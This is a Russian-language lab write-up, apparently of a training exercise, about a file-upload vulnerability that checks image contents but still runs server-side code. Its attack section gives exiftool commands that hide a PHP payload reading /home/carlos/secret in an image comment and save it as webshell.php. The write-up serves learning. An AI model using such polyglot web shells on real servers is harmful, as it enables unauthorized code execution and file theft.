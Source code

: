 Лаборатория содержит уязвимую функцию загрузки изображений. Хотя он проверяет содержимое файла, чтобы убедиться, что это подлинное изображение, все равно можно загружать и выполнять серверный код.

## Дано

учетные данные: `wiener:peter`

## Задача

извлечения содержимого файла. `/home/carlos/secret`

# Разведка

Проверка запроса на загрузку изображения
- Изменения jpg кодировки - `"No user param supplied"`

# Атака

Так как мы знаем об уязвимости то прибегнем к  инструменту ExifTool

- 1 создаём директорию где будем работать над изменением лога
- 2 добавляем коммент php нагрузки
	`exiftool -comment="<?php echo 'Look here' .file_get_contents('/home/carlos/secret')?>"  icons8-обсидиан-250.png`
![[Pasted image 20250127114106.png]]
- 3 делаем файл политканью 
	`exiftool -comment="<?php echo 'Look here ' .file_get_contents('/home/carlos/secret') . '';?>"  icons8-обсидиан-250.png -o webshell.php`
![[Pasted image 20250127114333.png]]
